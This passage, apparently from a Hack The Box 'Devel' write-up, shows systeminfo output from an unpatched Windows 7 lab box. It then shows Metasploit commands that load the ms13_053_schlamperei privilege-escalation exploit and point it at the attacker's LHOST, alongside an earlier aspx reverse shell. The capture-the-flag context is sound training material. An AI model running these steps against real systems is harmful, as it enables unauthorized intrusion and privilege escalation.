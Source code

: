 We know what exploits are suggested, to make sure, lets see what Hotfixes are installed
```{r, engine='bash', count_lines}
C:\Users>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                00392-918-5000002-85765
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          18/10/2017, 7:17:57 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 6 Model 79 Stepping 1 GenuineIntel ~2100 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.024 MB
Available Physical Memory: 763 MB
Virtual Memory: Max Size:  2.048 MB
Virtual Memory: Available: 1.573 MB
Virtual Memory: In Use:    475 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```

**Hotfix(s):                 N/A**

Lets get ready to rumble!!!

Select our exploit and set its options
**_NOTE_**: we need to change the port from 4444 to 4443
This is because our primary exploit(the dotaplayer.aspx reverse shell) is connected on port 4444
```{r, engine='bash', count_lines}
msf post(local_exploit_suggester) > use exploit/windows/local/ms13_053_schlamperei
msf exploit(ms13_053_schlamperei) > set SESSION 1
SESSION => 1
msf exploit(ms13_053_schlamperei) > set LPORT 4443
LPORT => 4443
msf exploit(ms13_053_schlamperei) > set LHOST 10.10.15.155
LHOST => 10.10.15.155
msf exploit(ms13_053_schlamperei) > show options

Module options (exploit/windows/local/ms13_053_schlamperei):

   Name     Current Setting  Required  Description
```